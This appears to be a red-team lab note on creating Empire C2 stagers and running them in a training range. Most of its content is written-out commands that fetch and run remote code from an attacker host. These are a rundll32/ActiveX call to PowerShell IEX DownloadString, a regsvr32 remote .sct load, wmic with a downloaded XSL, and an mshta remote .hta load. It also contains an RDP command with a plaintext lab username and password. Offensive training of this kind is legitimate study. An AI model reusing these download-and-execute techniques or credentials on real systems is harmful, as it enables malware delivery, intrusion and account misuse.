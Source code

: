 #### Tags: [[12 - Command and Control (TA0011)]]

## Objectives

    Create different payloads for familiarity
    Test payloads from the range
    Use additional tools to enhance payloads
## Overview
This lab will focus on creating multiple payloads and then testing them in the student range. We will use various methods to gain familiarity with different techniques.

### Launch [[Empire C2#Create an Empire listener]] 

## [[PowerShell Stager with rundll32.exe]]

#### *Payload:* Create interactive HTTP Powershell Stager

![[Pasted image 20240317180009.png]]

#### *Execution Technique:* 
```markdown
# Executing Stager with rundll32.exe
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://10.254.252.3:8000/setup.ps1');")
```
#### Or we can copy the payload for execution via [[Enterprise Microsoft Exchange server#Interact with the Web Shell|ASPX Web Shell]]
![[Pasted image 20240324025733.png]]

----
## [[SCT stager and execute with regsvr32.exe]]

#### *Payload:* Create a SCT stager
`xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp`

![[Pasted image 20240317175954.png]]
#### *Execution Technique:* 
```markdown
# Executing Stager with regsvr32.exe
regsvr32 /s /n /u /i:http://10.254.252.3:8000/config.sct scrobj.dll
```

---
## [[WMIC stager and execute with wmic]]

#### *Payload:* Create WMIC Stager

![[Pasted image 20240317175936.png]]

#### *Execution Technique:* 
```markdown
# Executing Stager with wmic
wget http://10.254.252.2:8000/update.xsl -o update.xsl
wmic os get /format:"update.xsl"
```

---

## [[HTA stager and execute with mshta.exe]]

#### *Payload:* Create HTA Stager

![[Pasted image 20240317175917.png]]
#### *Execution Technique:* 
```markdown
# Executing Stager with mshta.exe
mshta.exe http://10.254.252.3:8000/app.hta
```

----
### Executing Techniques

Link to Heading
and create 2 - Payloads & Execution Tech 

#### Notes | Bonus
- Create Links
- Bonus RT Sections 
	- Learn to deploy payload without RDP 
	- Learn to leverage Cobalt strike for payload creation

## Conclusion

